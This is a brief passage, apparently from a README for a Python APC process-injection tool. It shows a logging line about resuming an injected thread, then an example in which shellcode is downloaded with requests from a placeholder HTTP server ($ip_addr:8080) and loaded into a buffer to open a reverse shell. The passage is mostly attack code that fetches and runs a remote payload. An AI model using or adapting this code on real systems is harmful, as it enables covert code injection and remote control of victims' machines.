 ```python
logger.info("Resuming APC thread. HANDLE: {} PID: {}."
    .format(h_thread, process_id)
)
```

## Example output

In this example, I used the `requests` module to fetch the shellcode from an HTTP server and open a reverse shell. The rest of the code remains unchanged.

```python
import requests

r = requests.get("http://$ip_addr:8080/shellcode")
buf = create_string_buffer(r.content)
buf_size = len(buf)
```

![demo](https://github.com/user-attachments/assets/2b21d22c-eea7-491e-ab30-6cea4c235c4b)


